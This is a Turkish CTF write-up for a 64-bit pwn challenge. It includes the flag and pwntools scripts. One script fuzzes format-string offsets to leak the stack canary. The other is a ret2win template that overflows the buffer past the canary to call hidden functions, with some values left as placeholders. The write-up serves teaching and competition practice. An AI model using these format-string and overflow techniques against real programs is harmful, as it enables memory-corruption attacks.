








# pwn2 - PWN

flag: `SKYSEC{C0NGR4TS_Y0U_3SC4P3D_TH3_M4TR1X}`

# Writeup
# Giriş

Bu yazı YTÜ SKYLAB kulübünün düzenlediği SKYDAYS etkinliğindeki CTF
yarışmasındaki sorunun çözümünü anlatmaktadır. Sorunun tek çözümü bu
değildir, başka çözümler olabilmektedir.

# Soru

Bize verilen dosyayı çalıştırdığımızda şöyle bir ekran karşımıza çıkmakta:



Bizden iki kere girdi alıyor ve ilk girdimizi ekrana yazdırıyor.

# Çözüm

Dosyayı inceleyelim:





Dosyamız 64-bit ve Canary aktif.



Dosyadaki vuln() fonksiyonumuza bakarsak burada iki adet zaafiyetle karşılaşıyoruz:
1-printf(buffer); kodu bizim bellekten değer okumamıza kapı açıyor.
2-gets(buffer); kodu buffer’ın üzerine istediğimiz değerleri yazmamızı sağlıyor.





Yukarıdaki iki fonksiyona baktığımızda ise şunları görüyoruz:
*flag* fonksiyonu anlaşılabildiği üzere flag’imizi içeriyor fakat daha öncesinde “What is the password?” diye bir çıktı alıyoruz. Yani bir tür şifreye ihtiyacımız var.
*notaflaglol* fonksiyonumuzun bize verdiği çıktıdan önce “What is this string for?” çıktısını alıyoruz. Bu fonksiyondan elde edeceğimiz değer bizim şifremiz olabilir.

Tüm bu analizin sonucunda çözüm yolumuzu oluşturabiliriz:
1-Canary aktif. Programı manipüle ederken canary’i korumalıyız.
2-Buffer overflow ile önce *notaflaglol* fonksiyonuna erişmeli ve şifreyi almalıyız.
3-Daha sonra yine buffer overflow ile *flag* fonksiyonuna erişip şifreyi girip bayrağı elde etmeliyiz.

Bunun için önce bellekten değerleri okuyup canary’nin değerini öğrenmeliyiz. Bunu şöyle bir script ile yapabiliriz:

```python
from pwn import *

# This will automatically get context arch, bits, os etc
elf = context.binary = ELF('./chal', checksec=False)

# Let's fuzz x values
for i in range(100):
    try:
        # Create process (level used to reduce noise)
        p = process(level='error')
        # Format the counter
        # e.g. %2$s will attempt to print [i]th pointer/string/hex/char/int
        p.sendline('%{}$p'.format(i).encode())
        p.recvline()
        # Receive the response
        result = p.recvline().decode()
        # If the item from the stack isn't empty, print it
        if result:
            print(str(i) + ': ' + str(result).strip())
    except EOFError:
        pass

```

Peki bunlardan hangisinin canary olduğunu nasıl bileceğiz? Canary için aradığımız değer “00’ ile bitmeli, “ff” veya “f7” ile başlamamalı. Script’i çalıştırdığımızda bu koşulları sağlayan ve değişmeyen değer bizim olası canary’miz olacak. Canary’i bulduktan sonra şu tarz bir script template’i ile istediğimiz bir fonksiyona erişebiliriz:

```python
from pwn import *

# Allows you to switch between local/GDB/remote from terminal
def start(argv=[], *a, **kw):
    if args.GDB:  # Set GDBscript below
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:  # ('server', 'port')
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:  # Run locally
        return process([exe] + argv, *a, **kw)

# Set up pwntools for the correct architecture
exe = './chal'
# This will automatically get context arch, bits, os etc
elf = context.binary = ELF(exe, checksec=False)
# Enable verbose logging so we can see exactly what is being sent (info/debug)
context.log_level = 'debug'

# ===========================================================
#                    EXPLOIT GOES HERE
# ===========================================================

# Start program
io = start()

offset = 00  # Buraya BOF için offset'imizi yazıyoruz.

# Leak canary value (NUMBERX on stack)
io.sendlineafter(b'!', '%{}$p'.format('NUMBERX').encode())
io.recvline()  # Blank line
canary = int(io.recvline().strip(), 16)
info('canary = 0x%x (%d)', canary, canary)

# Build payload (ret2win)
payload = flat([
    offset * b'A',  # BOF için offset/garbage value
    canary,  # Canary'miz
    00 * b'A',  # Garbage value (NOT!: buradaki değer 32bit/64bit mimarilerde farklılık gösterecektir)
    elf.symbols.hacked  # dönmek istediğimiz fonksiyon: önce notaflaglol sonra flag
])

# Send the payload
io.sendlineafter(b':P', payload)

# Get our flag/shell
io.interactive()

```

Bunları dosyamıza göre ayarladığımızda elde edeceğimiz çıktılar:
Şifremiz:



Flag:



---

Daha fazla benzer örnek için bakabilirsiniz: [https://www.youtube.com/watch?v=wa3sMSdLyHw&list=PLHUKi1UlEgOIc07Rfk2Jgb5fZbxDPec94](https://www.youtube.com/watch?v=wa3sMSdLyHw&list=PLHUKi1UlEgOIc07Rfk2Jgb5fZbxDPec94)
